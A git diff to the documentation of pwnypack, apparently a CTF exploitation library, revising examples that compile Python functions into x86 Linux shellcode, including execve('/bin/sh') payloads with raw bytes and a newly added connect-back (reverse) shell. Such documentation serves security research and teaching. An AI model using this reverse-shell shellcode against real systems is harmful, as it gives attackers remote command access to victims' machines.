

Before and after one commit to edibledinos/pwnypack, a Sphinx documentation site: the page built from docs/pwnypack/shellcode/imperative.rst, in a window 1280 px wide and 1400 px high, scrolled down 1212 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Improve documentation of imperative shellcode.

```diff
--- a/docs/pwnypack/shellcode/imperative.rst
+++ b/docs/pwnypack/shellcode/imperative.rst
@@ -8,10 +8,10 @@ to a set of shellcode primitives.
 
 The set of operations you can use in your python function is limited. The
 properties of the environment (syscalls, registers, functions) are exposed
-as if they were globals.
+as if they were magic globals: you cannot shadow them.
 
-You translate a function by using the environment's ``translate`` class
-method.
+You translate a function by using the environment's
+:meth:`~pwnypack.shellcode.base.BaseEnvironment.translate` class method.
 
 Examples:
 
@@ -19,7 +19,7 @@ Examples:
     and assembles a piece of shellcode that just calls the exit system call.
 
     >>> from pwny import *
-    >>> @sc.LinuxX86.translate()
+    >>> @sc.LinuxX86Mutable.translate
     ... def shellcode():
     ...     sys_exit(0)
     ...
@@ -30,7 +30,7 @@ Examples:
     the same thing but in a different way:
 
     >>> from pwny import *
-    >>> @sc.LinuxX86.translate()
+    >>> @sc.LinuxX86Mutable.translate
     ... def shellcode():
     ...     EAX = 0
     ...     sys_exit(EAX)
@@ -42,7 +42,7 @@ Examples:
     be UTF-8 encoded and zero-terminated. Bytes are allocated verbatim.
 
     >>> from pwny import *
-    >>> @sc.LinuxX86.translate()
+    >>> @sc.LinuxX86Mutable.translate
     ... def shellcode():
     ...     sys_write(1, u'hello', 5)
     ...     sys_exit(0)
@@ -53,7 +53,7 @@ Examples:
     Or use lists as syscall arguments.
 
     >>> from pwny import *
-    >>> @sc.LinuxX86.translate()
+    >>> @sc.LinuxX86Mutable.translate
     ... def shellcode():
     ...     sys_execve(u'/bin/sh', [u'/bin/sh', None], None)
     ...
@@ -63,7 +63,7 @@ Examples:
     Need a buffer to write something to? We've got you covered.
 
     >>> from pwny import *
-    >>> @sc.LinuxX86.translate()
+    >>> @sc.LinuxX86Mutable.translate
     ... def shellcode():
     ...     buf = alloc_buffer(64)
     ...     sys_read(0, buf, buf.length)
@@ -76,9 +76,43 @@ Examples:
     You can also pass parameters to the shellcode function.
 
     >>> from pwny import *
-    >>> @sc.LinuxX86.translate()
+    >>> @sc.LinuxX86Mutable.translate
     ... def shellcode(command):
     ...     sys_execve(u'/bin/sh', [u'/bin/sh', command, None], None)
     ...
     >>> shellcode(u'ls -lR')
     '\xe8\x00\x00\x00\x00]\x83\xc5\x1a1\xd21\xc0PU\x8dE\x07P\x89\xe1\x8d]\x07\xb8\x0b\x00\x00\x00\xcd\x80ls -lR\x00/bin/sh\x00'
+
+    Combining all that, here's a somewhat larger example that also
+    demonstrates using global and local variables and register aliases to
+    implement a connect-back shell::
+
+        from pwny import *
+        import socket
+
+        @sc.LinuxX86Mutable.translate
+        def shell_connect(addr, port, shell=u'/bin/sh'):
+            # Prepare the sockaddr_in struct:
+            sockaddr = pack(
+                'H2s4s8s',
+                socket.AF_INET,
+                P16(port, endian=Target.Endian.big),
+                socket.inet_aton(addr),
+                b'........',  # Doesn't really have to be \0
+                target=target
+            )
+
+            # Set up register aliases (for convenience):
+            arg0 = SYSCALL_ARG_MAP[0]
+            arg1 = SYSCALL_ARG_MAP[1]
+            socket_reg = SYSCALL_ARG_MAP[4]
+
+            # Prepare socket:
+            socket_reg = sys_socket(socket.AF_INET, socket.SOCK_STREAM, socket.IPPROTO_TCP)
+            sys_connect(socket_reg, sockaddr, len(sockaddr))
+
+            # Dup2 stdin/out/err to socket and execute shell:
+            sys_dup2(socket_reg, 0)
+            reg_add(arg1, 1); sys_dup2(arg0, arg1)
+            reg_add(arg1, 1); sys_dup2(arg0, arg1)
+            sys_execve(shell, [shell, None], None)
```
